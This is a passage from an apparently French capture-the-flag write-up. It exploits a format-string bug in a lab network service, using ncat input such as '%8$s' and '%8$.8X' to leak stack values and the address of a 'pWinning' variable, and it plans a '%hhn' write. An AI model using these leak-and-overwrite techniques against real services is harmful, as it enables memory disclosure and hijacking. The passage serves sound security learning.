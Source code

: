Je n'entrerai pas dans les détails de ce type d'exploitation que j'ai déjà traité dans [mon article sur le sujet](http://devloop.users.sourceforge.net/index.php?article102/pwing-echo-exploitation-d-une-faille-de-chaine-de-format).  

On retrouve facilement la position de *retVal* sur la stack :  

```plain
Hello, what is your name?
%8X%8X%8X%8X%8X%8X
Nice to meet you        0       0       0       0       0      13
```

Ici *retVal* vaut 0x13 (donc 19) soit la longueur de la chaîne passée (*%8X%8X%8X%8X%8X%8X*) avec le retour à la ligne.  

En utilisant l'indicateur de position d'argument on retrouve plus loin sur la pile (en 8ème position) notre variable *pWinning*.  

J'utilise le format *%s* pour obtenir la valeur pointée, seule façon pour déterminer si on a affaire à la bonne variable.  

```plain
$ ncat 192.168.1.64 20001 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.64:20001.
Hello, what is your name?
%8$s
Nice to meet you xV4
```

*xV4* correspond aux code hexa *785634* donc une partie de l'entier que l'on cherchait. Le reste (12) n'est pas affiché par le terminal mais avec hexdump on peut vérifier qu'il est bien présent :  

```plain
$ echo '%8$s' | ncat 192.168.1.64 20001 -v | hexdump -C
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.64:20001.
00000000  48 65 6c 6c 6f 2c 20 77  68 61 74 20 69 73 20 79  |Hello, what is y|
00000010  6f 75 72 20 6e 61 6d 65  3f 0a 4e 69 63 65 20 74  |our name?.Nice t|
00000020  6f 20 6d 65 65 74 20 79  6f 75 20 78 56 34 12 0a  |o meet you xV4..|
00000030  0a 53 6f 72 72 79 2c 20  74 6f 64 61 79 20 69 73  |.Sorry, today is|
00000040  20 6e 6f 74 20 79 6f 75  72 20 6c 75 63 6b 79 20  | not your lucky |
00000050  64 61 79 2e 0a 48 65 6c  6c 6f 2c 20 77 68 61 74  |day..Hello, what|
```

Ok donc quelle est l'adresse de *pWinning* ?  

```plain
Hello, what is your name?
%8$.8X
Nice to meet you B74F00DF
```

Cette adresse change à chaque connexion comme vu dans le code mais reste fixe si on reste connecté.  

Notre objectif est donc de récupérer l'adresse (comme fait à l'instant) puis d'utiliser une format string qui écrira les octets *EF 7B 33 31*.  

Etant donné que *snprintf* reçoit un argument qui limite la taille de la chaîne générée j'ai choisit d'utiliser le format *%hhn* pour éviter les mauvaises surprises.  
